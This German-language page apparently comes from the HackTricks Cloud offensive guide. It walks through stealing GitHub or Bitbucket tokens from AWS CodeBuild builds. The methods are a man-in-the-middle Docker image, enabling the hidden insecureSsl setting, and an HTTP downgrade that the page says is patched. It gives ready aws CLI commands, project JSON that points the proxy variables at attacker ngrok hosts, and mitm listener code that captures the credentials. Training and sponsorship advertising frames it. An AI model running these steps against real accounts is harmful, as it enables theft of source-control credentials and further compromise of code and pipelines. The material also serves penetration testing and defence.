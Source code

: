 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Wiederherstellung von Github/Bitbucket konfigurierten Tokens

Überprüfe zuerst, ob es Quellanmeldeinformationen gibt, die du leaken könntest:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Wenn Sie feststellen, dass die Authentifizierung zum Beispiel für Github im Konto eingestellt ist, können Sie **exfiltrieren** diesen **Zugang** (**GH-Token oder OAuth-Token**), indem Sie Codebuild dazu bringen, ein **bestimmtes Docker-Image** zu verwenden, um den Build des Projekts auszuführen.

Zu diesem Zweck könnten Sie **ein neues Codebuild-Projekt erstellen** oder die **Umgebung** eines bestehenden ändern, um das **Docker-Image** festzulegen.

Das Docker-Image, das Sie verwenden könnten, ist [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dies ist ein sehr einfaches Docker-Image, das die **Umgebungsvariablen `https_proxy`**, **`http_proxy`** und **`SSL_CERT_FILE`** festlegt. Dies ermöglicht es Ihnen, den Großteil des Traffics des im **`https_proxy`** und **`http_proxy`** angegebenen Hosts abzufangen und das in **`SSL_CERT_FILE`** angegebene SSL-Zertifikat zu vertrauen.

1. **Erstellen & Hochladen Ihres eigenen Docker MitM-Images**
* Befolgen Sie die Anweisungen des Repos, um Ihre Proxy-IP-Adresse festzulegen und Ihr SSL-Zertifikat einzustellen und **das Docker-Image zu erstellen**.
* **SETZEN SIE NICHT `http_proxy`**, um keine Anfragen an den Metadaten-Endpunkt abzufangen.
* Sie könnten **`ngrok`** wie `ngrok tcp 4444` verwenden, um den Proxy auf Ihren Host einzustellen.
* Sobald Sie das Docker-Image erstellt haben, **laden Sie es in ein öffentliches Repo hoch** (Dockerhub, ECR...)
2. **Setzen Sie die Umgebung**
* Erstellen Sie ein **neues Codebuild-Projekt** oder **ändern** Sie die Umgebung eines bestehenden.
* Stellen Sie das Projekt so ein, dass es das **zuvor generierte Docker-Image** verwendet.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Setzen Sie den MitM-Proxy auf Ihrem Host**

* Wie im **Github-Repo** angegeben, könnten Sie etwas wie Folgendes verwenden:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Die **mitmproxy-Version, die verwendet wurde, war 9.0.1**, es wurde berichtet, dass dies mit Version 10 möglicherweise nicht funktioniert.
{% endhint %}

4. **Führen Sie den Build aus und erfassen Sie die Anmeldeinformationen**

*   Sie können das Token im **Authorization**-Header sehen:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Dies könnte auch über die aws cli mit etwas wie

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild**-Projekte haben eine Einstellung namens **`insecureSsl`**, die im Web verborgen ist und nur über die API geändert werden kann.\
Wenn Sie dies aktivieren, kann Codebuild sich mit dem Repository **verbinden, ohne das Zertifikat** zu überprüfen, das von der Plattform angeboten wird.

* Zuerst müssen Sie die aktuelle Konfiguration mit etwas wie:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Dann kannst du mit den gesammelten Informationen die Projekteinstellungen **`insecureSsl`** auf **`True`** aktualisieren. Das folgende ist ein Beispiel für meine Aktualisierung eines Projekts, beachte das **`insecureSsl=True`** am Ende (das ist das einzige, was du von der gesammelten Konfiguration ändern musst).
* Außerdem füge auch die Umgebungsvariablen **http\_proxy** und **https\_proxy** hinzu, die auf dein tcp ngrok zeigen, wie: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Führen Sie dann das grundlegende Beispiel von [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) an dem Port aus, der durch die Proxy-Variablen (http\_proxy und https\_proxy) angegeben ist.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Schließlich klicken Sie auf **Build the project**, die **Anmeldeinformationen** werden **im Klartext** (base64) an den mitm-Port gesendet:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### ~~Über das HTTP-Protokoll~~

{% hint style="success" %}
**Diese Schwachstelle wurde von AWS irgendwann in der Woche des 20. Februar 2023 (ich glaube am Freitag) behoben. Ein Angreifer kann sie also nicht mehr ausnutzen :)**
{% endhint %}

Ein Angreifer mit **erhöhten Berechtigungen in über einem CodeBuild könnte das Github/Bitbucket-Token** leaken, das konfiguriert ist, oder wenn die Berechtigungen über OAuth konfiguriert wurden, das **temporäre OAuth-Token, das zum Zugriff auf den Code verwendet wird**.

* Ein Angreifer könnte die Umgebungsvariablen **http\_proxy** und **https\_proxy** zum CodeBuild-Projekt hinzufügen, die auf seine Maschine zeigen (zum Beispiel `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Dann ändern Sie die URL des Github-Repos, um HTTP anstelle von HTTPS zu verwenden, zum Beispiel: `http://github.com/carlospolop-forks/TestActions`
* Dann führen Sie das grundlegende Beispiel von [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) an dem Port aus, auf den die Proxy-Variablen (http\_proxy und https\_proxy) zeigen.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Schließlich klicken Sie auf **Projekt erstellen**, die **Anmeldeinformationen** werden **im Klartext** (base64) an den mitm-Port gesendet:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Jetzt kann ein Angreifer das Token von seinem Rechner verwenden, alle Privilegien auflisten, die es hat, und (miss)brauchen einfacher als die direkte Nutzung des CodeBuild-Dienstes.
{% endhint %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
